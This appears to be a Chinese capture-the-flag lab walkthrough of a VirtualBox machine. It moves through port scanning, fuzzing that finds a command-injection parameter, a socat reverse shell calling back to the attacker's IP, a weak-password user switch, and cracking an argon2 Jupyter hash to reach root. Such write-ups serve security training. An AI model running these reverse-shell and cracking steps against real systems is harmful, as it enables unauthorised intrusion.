 # **一、信息收集**

## **1. 主机发现与端口扫描**

首先在本地网络中使用 `arp-scan` 确定目标主机的IP地址，随后利用 `nmap` 对其进行全端口扫描，以识别开放的服务。

**主机发现:**

```bash
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
...
192.168.205.142 08:00:27:5d:bd:e0       PCS Systemtechnik GmbH
...
```

**端口扫描:**

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.205.142
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 08:53 EDT
Nmap scan report for 192.168.205.142
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:5D:BD:E0 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.10 seconds```
```

扫描结果表明，目标主机IP为 `192.168.205.142`，开放了 **22 (SSH)**、**80 (HTTP)** 和 **443 (HTTPS)** 端口。访问80端口会自动跳转到443端口。

## **2. 服务侦察**

* **HTTPS (443端口):** 访问该服务发现是一个基于开源项目 `cstimer` 的魔方计时网站。

  > [!Tip]
  >
  > https://github.com/cs0x7f/cstimer

  ![image-20250814205523360](C:\Users\ABCDEFG888\AppData\Roaming\Typora\typora-user-images\image-20250814205523360.png)

# **二、漏洞发现与初始访问**

## **1. Web参数模糊测试与RCE**

对网站进行参数模糊测试，发现一个名为 `cmd` 的参数存在远程代码执行（RCE）漏洞。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'https://192.168.205.142?FUZZ=id' --fw 3928

...
cmd                     [Status: 200, Size: 55130, Words: 3930, Lines: 359, Duration: 228ms]
...
```

## **2. 获取 www-data Shell**

经过测试发现，目标主机上没有 `busybox` 和 `curl`，直接使用 `bash` 反弹shell也失败（可能是我的问题，你可以尝试一下）。最终选择使用 `socat` 来获取反弹shell。

**本地监听:**

```bash
nc -lvnp 8888
```

**执行Payload:**

```bash
# 利用 socat 反弹 shell
https://192.168.205.142/?cmd=socat TCP:192.168.205.128:8888 EXEC:$(which $(echo $0))
```

成功接收到 `www-data` 用户的shell后，为了便于操作，使用以下命令序列来获得一个功能完整的TTY。

```bash
script /dev/null -c bash
# 按下 Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80
```

# **三、权限提升**

## **1. www-data -> room**

在 `www-data` shell中，查看 `/home` 目录发现存在用户 `room`。尝试使用弱口令 `room` 进行用户切换，成功切换到 `room` 用户。

```bash
www-data@Book:/home$ su room 
Password: room
room@Book:/home$ id
uid=1001(room) gid=1001(room) groups=1001(room)
```

## **2. room -> root**

1. **本地服务发现:** 成为 `room` 用户后，使用 `ss -tnlp` 命令发现本地 `127.0.0.1` 的 `8888` 端口上运行着一个服务。

   ```bash
   room@Book:~$ ss -tnlp
   State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    
   ...     
   LISTEN    0         128              127.0.0.1:8888             0.0.0.0:*
   ...
   ```

   通过 `wget` 访问该服务，发现是一个 Jupyter Server 的登录页面。

2. **凭证发现与破解:** 在 `/var/backups/` 目录下找到一个Jupyter的配置文件 `jupyter_server_config.json`，其中包含一个 `argon2` 格式的哈希密码。

   ```bash
   room@Book:/var/backups$ cat jupyter_server_config.json
   {
     "IdentityProvider": {
       "hashed_password": "argon2:$argon2id$v=19$m=10240,t=10,p=8$FLuM1EM1nn/EP9ni1ust1A$BSnZUgXixY8B0Tzmffcz/9Zo9cvEO/PeAu8zw/iYNI4"
     }
   }
   ```

   使用 `Argon2Cracker` 工具和字典对该哈希进行破解，成功得到明文密码 `star123`。

   > [!Tip]
   >
   > https://github.com/p0dalirius/Argon2Cracker

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x/Argon2Cracker]
   └─$ python3 Argon2Cracker.py '$argon2id$v=19$m=10240,t=10,p=8$FLuM1EM1nn/EP9ni1ust1A$BSnZUgXixY8B0Tzmffcz/9Zo9cvEO/PeAu8zw/iYNI4' -w ../5000h.txt  
   ...
   [>] Found: star123
   ```

3. **获取Root权限:**

   * 在Kali上，使用SSH的本地端口转发功能，将目标主机的8888端口映射到本地。

     ```bash
     ssh -L 8888:127.0.0.1:8888 room@192.168.205.142
     ```

   * 打开本地浏览器访问 `http://127.0.0.1:8888`，进入Jupyter登录页面，输入破解出的密码 `star123` 成功登录。

   * Jupyter Server在此处是以 `root` 权限运行的。通过 `File > New > Terminal` 创建一个新的终端，直接获得 `root` 权限的shell。

   * 最后，在 `root` shell中读取两个flag文件。

     ```bash
     root@Book:~# id
     uid=0(root) gid=0(root) groups=0(root)
     root@Book:~# cat /root/root.txt /home/room/user.txt 
     flag{root-4f98663772651c870e911982e991d0d9}
     flag{user-a81e1f271bc4a3dd4ac87827da4d0a78}
     ```
